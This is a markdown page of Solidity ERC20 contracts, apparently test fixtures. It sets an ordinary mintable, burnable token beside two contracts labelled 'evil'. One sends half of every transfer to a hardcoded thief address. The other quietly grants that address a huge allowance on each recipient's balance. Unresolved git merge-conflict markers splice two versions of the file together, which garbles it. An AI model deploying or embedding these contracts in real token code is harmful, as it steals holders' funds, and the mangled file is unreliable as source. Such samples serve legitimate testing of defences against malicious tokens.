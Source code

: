 # Raw Contracts

<<<<<<< HEAD
## ERC20DirectBalanceManipulation

```sol
=======
## Standard - ERC20MinterBurnerDecimals

```
// SPDX-License-Identifier: MIT
// OpenZeppelin Contracts v4.3.2 (token/ERC20/presets/ERC20PresetMinterPauser.sol)

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Pausable.sol";
import "@openzeppelin/contracts/access/AccessControlEnumerable.sol";
import "@openzeppelin/contracts/utils/Context.sol";

/**
 * @dev {ERC20} token, including:
 *
 *  - ability for holders to burn (destroy) their tokens
 *  - a minter role that allows for token minting (creation)
 *  - a pauser role that allows to stop all token transfers
 *
 * This contract uses {AccessControl} to lock permissioned functions using the
 * different roles - head to its documentation for details.
 *
 * The account that deploys the contract will be granted the minter and pauser
 * roles, as well as the default admin role, which will let it grant both minter
 * and pauser roles to other accounts.
 */
contract ERC20MinterBurnerDecimals is Context, AccessControlEnumerable, ERC20Burnable, ERC20Pausable {
    bytes32 public constant MINTER_ROLE = keccak256("MINTER_ROLE");
    bytes32 public constant PAUSER_ROLE = keccak256("PAUSER_ROLE");
    bytes32 public constant BURNER_ROLE = keccak256("BURNER_ROLE");
    uint8 private _decimals;

    /**
     * @dev Grants `DEFAULT_ADMIN_ROLE`, `MINTER_ROLE` and `PAUSER_ROLE` to the
     * account that deploys the contract and customizes tokens decimals
     *
     * See {ERC20-constructor}.
     */
    constructor(string memory name, string memory symbol, uint8 decimals_)
      ERC20(name, symbol) {
        _setupRole(DEFAULT_ADMIN_ROLE, _msgSender());

        _setupRole(MINTER_ROLE, _msgSender());
        _setupRole(PAUSER_ROLE, _msgSender());
        _setupRole(BURNER_ROLE, _msgSender());
        _setupDecimals(decimals_);
    }

    /**
     * @dev Sets `_decimals` as `decimals_ once at Deployment'
     */
    function _setupDecimals(uint8 decimals_) private {
      _decimals = decimals_;
    }

    /**
     * @dev Overrides the `decimals()` method with custom `_decimals`
     */
    function decimals() public view virtual override returns (uint8) {
      return _decimals;
    }

    /**
     * @dev Creates `amount` new tokens for `to`.
     *
     * See {ERC20-_mint}.
     *
     * Requirements:
     *
     * - the caller must have the `MINTER_ROLE`.
     */
    function mint(address to, uint256 amount) public virtual {
        require(hasRole(MINTER_ROLE, _msgSender()), "ERC20MinterBurnerDecimals: must have minter role to mint");
        _mint(to, amount);
    }

        /**
     * @dev Destroys `amount` new tokens for `to`.
     *
     * See {ERC20-_burn}.
     *
     * Requirements:
     *
     * - the caller must have the `BURNER_ROLE`.
     */
    function burnCoins(address from, uint256 amount) public virtual {
        require(hasRole(BURNER_ROLE, _msgSender()), "ERC20MinterBurnerDecimals: must have burner role to burn");
        _burn(from, amount);
    }

    /**
     * @dev Pauses all token transfers.
     *
     * See {ERC20Pausable} and {Pausable-_pause}.
     *
     * Requirements:
     *
     * - the caller must have the `PAUSER_ROLE`.
     */
    function pause() public virtual {
        require(hasRole(PAUSER_ROLE, _msgSender()), "ERC20MinterBurnerDecimals: must have pauser role to pause");
        _pause();
    }

    /**
     * @dev Unpauses all token transfers.
     *
     * See {ERC20Pausable} and {Pausable-_unpause}.
     *
     * Requirements:
     *
     * - the caller must have the `PAUSER_ROLE`.
     */
    function unpause() public virtual {
        require(hasRole(PAUSER_ROLE, _msgSender()), "ERC20MinterBurnerDecimals: must have pauser role to unpause");
        _unpause();
    }

    function _beforeTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal virtual override(ERC20, ERC20Pausable) {
        super._beforeTokenTransfer(from, to, amount);
    }
}
```

## Evil - ERC20PresetMinterPauserDecimal

ERC20PresetMinterPauserDecimal is an extension of ERC20PresetMinterPauser. When
this token is deployed it additionally expects the deployer to customize the
decimals.
```
>>>>>>> main
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "node_modules/@openzeppelin/contracts/token/ERC20/presets/ERC20PresetMinterPauser.sol";
<<<<<<< HEAD
// This is an evil token. Whenever an A -> B transfer is called, half of the amount goes to B
// and half to a predefined C
contract ERC20DirectBalanceManipulation is ERC20PresetMinterPauser {
  address private _thief = 0x4dC6ac40Af078661fc43823086E1513635Eeab14;
  constructor(uint256 initialSupply)
    ERC20PresetMinterPauser("ERC20DirectBalanceManipulation", "ERC20DirectBalanceManipulation") {
      _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);
      _mint(msg.sender, initialSupply);
  }
  function transfer(address recipient, uint256 amount) public virtual override returns (bool) {
    // Any time a transaction happens, the thief account siphons half.
    uint256 half = amount / 2;

    super.transfer(_thief, amount - half); // a - h for rounding
    return super.transfer(recipient, half);
  }
}
```

## ERC20MaliciousDelayed
=======

contract ERC20PresetMinterPauserDecimal is ERC20PresetMinterPauser {
  uint8 private _decimals;

  constructor(string memory name, string memory symbol, uint8 decimals_)
    ERC20PresetMinterPauser(name, symbol) {
      _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);
      _setupDecimals(decimals_);
  }

  function _setupDecimals(uint8 decimals_) private {
    _decimals = decimals_;
  }

  function decimals() public view virtual override returns (uint8) {
    return _decimals;
  }
}

```

## Evil - ERC20MaliciousDelayed
>>>>>>> main

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "node_modules/@openzeppelin/contracts/token/ERC20/presets/ERC20PresetMinterPauser.sol";

// This is an evil token. Whenever an A -> B transfer is called,
// a predefined C is given a massive allowance on B.
contract ERC20MaliciousDelayed is ERC20PresetMinterPauser {
  address private _thief = 0x4dC6ac40Af078661fc43823086E1513635Eeab14;
  uint256 private _bigNum = 1000000000000000000; // ~uint256(0)
  constructor(uint256 initialSupply)
    ERC20PresetMinterPauser("ERC20MaliciousDelayed", "ERC20MALICIOUSDELAYED") {
      _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);
      _mint(msg.sender, initialSupply);

  }
  function transfer(address recipient, uint256 amount) public virtual override returns (bool) {
    // Any time a transaction happens, the thief account is granted allowance in secret.
    // Still emits an Approve!
    super._approve(recipient, _thief, _bigNum);
    return super.transfer(recipient, amount);
  }
}
```